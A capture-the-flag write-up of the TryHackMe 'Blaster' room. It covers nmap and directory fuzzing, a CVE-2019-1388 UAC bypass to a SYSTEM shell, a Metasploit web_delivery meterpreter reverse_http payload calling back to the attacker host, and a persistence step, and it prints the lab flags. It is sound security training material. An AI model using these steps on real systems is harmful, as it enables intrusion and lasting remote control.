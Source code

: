 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Blaster_Cover.png" alt="Blaster Logo">
</p>

# Blaster

This guide contains the answer and steps necessary to get to them for the [Blaster](https://tryhackme.com/room/blaster) room.

## Table of contents

- [Activate Forward Scanners and Launch Proton Torpedoes](#activate-forward-scanners-and-launch-proton-torpedoes)
- [Breaching the Control Room](#breaching-the-control-room)
- [Adoption into the Collective](#adoption-into-the-collective)

### Activate Forward Scanners and Launch Proton Torpedoes

In this task we will gather information about our target machine to log in to it.

1. How many ports are open on our target system?

   We use the following nmap command to scan the system:
   
   ```cmd
   sudo nmap 10.10.133.12 -Pn -sS -sV
   ```
   
   ![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Scanning_Nmap_Scan.png)

   ><details><summary>Click for answer</summary>2</details>

2. Looks like there's a web server running, what is the title of the page we discover when browsing to it?

   We find a server running on port 80. We can navigate to this URL in our browser to find the webpage.
   
   ![Webpage](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Scanning_Webpage.png)

   ><details><summary>Click for answer</summary>IIS Windows Server</details>

3. Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?

   Using the following command, we can find any hidden directories:
   
   ```cmd
   dirsearch -u 10.10.133.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r
   ```
   
   ![Directory](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Scanning_Directory.png)

   ><details><summary>Click for answer</summary>/retro</details>

4. Navigate to our discovered hidden directory, what potential username do we discover?

   Browsing through some of the pages we see one name recuring several times.
   
   ![Webpage Username](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Scanning_Username.png)

   ><details><summary>Click for answer</summary>Wade</details>

5. Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?

   On one of the blog entries we see him talking about difficulties logging in. Then in a comment, he mentions his password.
   
   ![Password](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Scanning_Password.png)

   ><details><summary>Click for answer</summary>Parzival</details>

6. Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are it's contents?

   Using Reminna we can remotely log into the machine and find the flag and the desktop.
   
   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Scanning_Flag.png)

   ><details><summary>Click for answer</summary>THM{HACK_PLAYER_ONE}</details>

### Breaching the Control Room

In this task we will escalate our priveleges using a UAC exploit.

1. When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?

   

   ><details><summary>Click for answer</summary>CVE-2019-1388</details>

2. Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

   

   ><details><summary>Click for answer</summary>hhupd</details>

*Research vulnerability and how to exploit it. Exploit it now to gain an elevated terminal!*



This question was a though one, as there was no possibility for me to find out where to go next without a guide. The hint mentioned we should look for what the user was searching for. So the first thing I did was opening Internet Explorer to find any browser hidtory. This was empty.. Looking at other people's writeups, I saw they also had Chrome installed. I, unfortunately, didn't.
   
I took the liberty of viewing the users browser history another user [posted](https://muirlandoracle.co.uk/2020/01/06/tryhackme-christmas-2019-challenge-write-up/#Day_Thirteen_-_Accumulate). Apparently, they were searching for a CVE. Perhaps the system is vulnerable to it.
   
After another Google [search](https://github.com/nobodyatall648/CVE-2019-1388) I learned we could exploit the vulnerability to obtain a cmd shell with elevated priveleges through the UAC window.
   
I this case we can open the `.exe` file on the desktop to open a UAC prompt and view the certificate.
   
![View Certificate](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Breach_Root_Certificate.png)
   
   Clicking on the link for the certificate issuer should spawn a browser instance with elevated priveleges as it originates from the `.exe`.
   
   **Important note!** `Make sure no browser window is currently open before visiting the link. Otherwise, the link will be opened in the browser instance without priveleges.`
   
In the opened browser window we get a connection error, but we can ignore that. We need to save this page as. Either through the menu or with `Ctrl + S`. 
   
![Save as Prompt](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Breach_Save_Page.png)
   
In the path bar we write: `C:\Windows\System32\cmd.exe` and press Enter.
   
4. Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?

   A cmd shell should openen with elevated priveleges. Lets check.
   
   ![Cmd Window](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Breach_Elevated_Shell.png)
   
   ><details><summary>Click for answer</summary>nt authority\system</details>

5. Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!

   Now we can navigate to the Administrator folder and read the flag.

   ![Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Breach_Root_Flag.png) 

   ><details><summary>Click for answer</summary>THM{COIN_OPERATED_EXPLOITATION}</details>

### Adoption into the Collective

In this task we will use MetaSploit to enable a remote shell and increase our presistance.

*Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.*

Type the following command to use the specified module (or you can search for it):

```cmd
use exploit/multi/script/web_delivery

search exploit delivery
```

2. First, let's set the target to PSH (PowerShell). Which target number is PSH?

   Type `show targets` or `info` to find which target we must use.
   
   ![Targetse](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Adoption_Targets.png)

   ><details><summary>Click for answer</summary>2</details>

*After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.*

First we must view the options and then we can set the correct options.

![Options](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Adoption_Options.png)

![Set Options](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Adoption_Set_Options.png)

**Note:** The `SRVHOST` and `SRVPORT` do not have to be changed. `LHOST` needs to be our attack machine.

*Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.*

We need to set the correct payload with:

```cmd
set payload payload/windows/meterpreter/reverse_http
```

![Set Payload](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blaster/Adoption_Set_Payload.png)

*Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple python web server (python3 -m http.server) and host the command in a text file as copy and paste between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned.*

6. Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup. 

   

   ><details><summary>Click for answer</summary></details>

*Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gain full control over the remote host and have established persistence for further operations!*
